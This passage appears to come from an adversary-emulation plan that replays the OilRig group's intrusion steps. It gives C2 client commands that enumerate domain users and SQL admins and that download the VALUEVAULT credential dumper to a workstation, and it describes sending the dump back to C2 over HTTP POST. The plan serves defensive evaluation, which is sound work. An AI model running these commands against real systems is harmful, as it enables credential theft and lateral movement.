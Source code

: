 Perform follow up discovery using gained information to determine gosta is a 
member of EWS Administrators, tous is a SQL administrator and the IP of 
WATERFALLS.

```bash
# OilRig has been observed to perform enumeration of users and groups.[3]

./evalsC2client.py --set-task goTb '101 net user gosta /domain 2>&1 & net group "SQL Admins" /domain 2>&1 & nslookup WATERFALLS 2>&1'
```

<br>

### :moyai: Source Code
*  SideTwist instruction parsing: [SideTwist.cpp#L65-L79](../Resources/SideTwist/SideTwist/SideTwist.cpp#L65-L79/)
*  SideTwist command execution: [SideTwist.cpp#L102-L114](../Resources/SideTwist/SideTwist/SideTwist.cpp#L102-L114/)

<br>

### :microscope: Cited Intelligence
*  SideTwist: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
*  VBA coding/macros: https://www.intezer.com/blog/malware-analysis/new-iranian-campaign-tailored-to-us-companies-uses-updated-toolset/  
*  Helminth campaigns/enumeration: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/
*  EWS admin/Exchange Trusted Subsystem discovery: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>


## Step 3 - Workstation Low Privilege Credential Dumping

### :microphone: Voice Track

Step 3 emulates OilRig using `SystemFailureReporter.exe` to download VALUEVAULT
(the executable for which is `b.exe`) which is then leveraged to perform a low 
privilege credential dumping. `SystemFailureReporter.exe` then uploads the 
VALUEVAULT dump (named `fsociety.dat`) back to C2 via HTTP POST request. 

The output of the credential dump provides a plaintext password for the current 
user `gosta`.

---

### ☣️ Procedures

:arrow_right: On Linux Attack Platform  as `saka`, issue the command to download VALUEVAULT
to the workstation

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\gosta\AppData\Roaming\b.exe|b.exe'
```
